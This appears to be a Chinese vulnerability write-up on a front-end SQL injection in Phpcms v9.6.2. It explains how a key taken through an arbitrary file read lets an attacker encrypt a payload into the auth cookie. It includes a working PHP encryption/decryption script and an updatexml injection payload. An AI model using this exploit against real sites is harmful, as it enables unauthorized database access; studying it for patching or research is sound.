


# Phpcms v9.6.2 前台 sql 注入

> 原文：[http://book.iwonder.run/0day/Phpcms/Phpcms v9.6.2 前台 sql 注入.html](http://book.iwonder.run/0day/Phpcms/Phpcms v9.6.2 前台 sql 注入.html)

## 一、漏洞简介

## 二、漏洞影响

Phpcms v9.6.2

## 三、复现过程

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的 **key** 值，我们可以用这个 **key** 加密我们的 **SQL 注入 payload** 。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲 **v9.6.2** 版本的注入只能在 **windows** 上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php** ，代码如下图。我们可以明显看到下图第 33 行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据 **$phpcms_auth** 和解密秘钥 **$auth_key** 均可构造。


我们先来看一下待解密数据 **$phpcms_auth** 如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx_auth** 字段经过 **sys_auth** 函数解密后，返回给了 **$phpcms_auth** ，而默认情况下使用 **pc_base::load_config('system', 'auth_key')** 作为加解密的 **key** 值。


而 **pc_base::load_config('system', 'auth_key')** 的值在网站搭建好后，会存储在 **caches/configs/system.php** 中，我们可以通过任意文件读取来获得这个值。



现在 **$phpcms_auth** 已经搞定了，我们再来看看 **$auth_key = get_auth_key('login')** 如何构造，跟进 **get_auth_key** 的代码。我们可以看到 **$auth_key** 由 **$prefix、pc_base::load_config('system','auth_key')、ip()** 三个元素决定。前两个都是已知的，而第三个获取用户 IP 的函数存在 IP 伪造的问题，也可以是固定的。


所以 **get_auth_key('login')** 的值也是我们可以构造的，剩下的事情只要我们将 **payload** 传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3** 中是如何修复这个漏洞的，补丁如下：


可以明显看到，补丁将解密后获得的 **$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get_cookie(‘auth’) 得到$phpcms_auth，get_auth_key(‘login’)得到$auth_key，然后 sys_auth($phpcms_auth, ‘DECODE’, $auth_key)。

再通俗些的话：sys_auth 方法对 cookie 中包含 auth 的参数名对应的密文值，先使用配置文件中的 auth_key 进行 sys_auth 得到的值作为第一次解密后的值，然后使用配置文件中的 auth_key 的值与客户端请求的 IP 拼接做 MD5 加密的值做为新的 key，第一次解密后的值与新的 key 最后传入 sys_auth 进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的 auth_key 的值与客户端请求的 IP 拼接做 MD5 加密的值做为新的 key，使用新的 key 与明文进行 sys_auth 得到的值作为第一次加密的密文，然后使用配置文件中的 auth_key 作为 key 与第一次加密的密文传入 sys_auth 得到的值作为最终的密文，也就是 cookie 字段名称中包含 auth 的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行 payload 的加解密操作：**

```
<?php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
    $ckey_length = 4;
    $key = md5($key != '' ? $key : $auth_key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    $string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255);

    $rndkey = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {

            return '';
        }
    } else {
        return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
    }
}

function get_auth_key($prefix,$suffix="",$ip='127.0.0.1',$auth_key='7G6idVtMAxhgFVu5vGp1') {
    if($prefix=='login'){
        $pc_auth_key = md5($auth_key.$ip);
    }else if($prefix=='email'){
        $pc_auth_key = md5($auth_key);
    }else{
        $pc_auth_key = md5($auth_key.$suffix);
    }
    $authkey = md5($prefix.$pc_auth_key);
    return $authkey;
}

//解密过程
//step 1
$encryption_str = '6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4';
$operation1 = 'DECODE';
$decryption_step1 = (sys_auth($encryption_str, $operation1));
echo 'decryption_step1 result:'.$decryption_step1."\n";

//step 2
$decryption_step2 = $decryption_step1;
$auth_key = get_auth_key('login');
echo 'decryption_step2 result:'.sys_auth($decryption_step2, 'DECODE', $auth_key)."\n";

echo '-----------------------'."\n" ;

//加密过程
//step 1
$clear_str = "1'or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336";
$operation2 = 'ENCODE';
$encryption_step1 = sys_auth($clear_str, 'ENCODE', $auth_key);
echo 'encryption_step1 result:'.$encryption_step1."\n";

//step 2
$encryption_step2 = (sys_auth($encryption_step1, $operation2));
echo 'encryption_step2 result:'.$encryption_step2; 
```

使用上面的代码可以进行解密和加密，下图中 decryption_step2 result 的值便是对 payload 进行解密的最终结果，encryption_step2 的值是对 payload 进行加密的最终结果。


最终利用的现象，cookie 中的 YDVIB_auth 参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的 cookie 中字段名称中 xxx_auth 的参数名称，便是存在漏洞的位置。



## 参考链接

> [https://www.freebuf.com/column/158352.html](https://www.freebuf.com/column/158352.html)
> 
> [https://xz.aliyun.com/t/5731](https://xz.aliyun.com/t/5731)

